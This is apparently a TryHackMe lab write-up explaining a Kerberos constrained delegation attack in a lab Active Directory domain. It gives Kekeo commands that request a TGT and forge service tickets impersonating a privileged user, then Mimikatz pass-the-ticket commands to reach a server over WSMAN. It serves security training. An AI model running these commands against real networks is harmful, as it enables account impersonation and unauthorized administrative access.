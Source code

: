 - Perform the kerberos delegation attack with [kekeo](https://github.com/gentilkiwi/kekeo) `kekeo.exe`
- `tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted` generate a TGT that can be used to generate tickets for the HTTP and WSMAN services
  - user - The user who has the constrained delegation permissions.
  - domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
  - password - The password associated with the svcIIS account.

![generate TGT](../.res/2022-07-29-13-08-20.png)  

- `/user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc` forge TGS requests for the account we want to impersonate. We need to perform this for both HTTP and WSMAN to allow us to create a PSSession on THMSERVER1
  - tgt - We provide the TGT that we generated in the previous step.
  - user - The user we want to impersonate. Since t2 accounts have administrative access over workstations, it is a safe assumption that t1 accounts will have administrative access over servers, so choose a t1_ account that you would like to impersonate.
  - service - The services we want to impersonate using delegation. We first generate a TGS for the HTTP service. Then we can rerun the same command for the WSMAN service. `tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc`
- Import the tickets with Mimikatz

```dos
privilege::debug
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```

- You should have a similar output  

![output](../.res/2022-07-29-15-35-02.png)
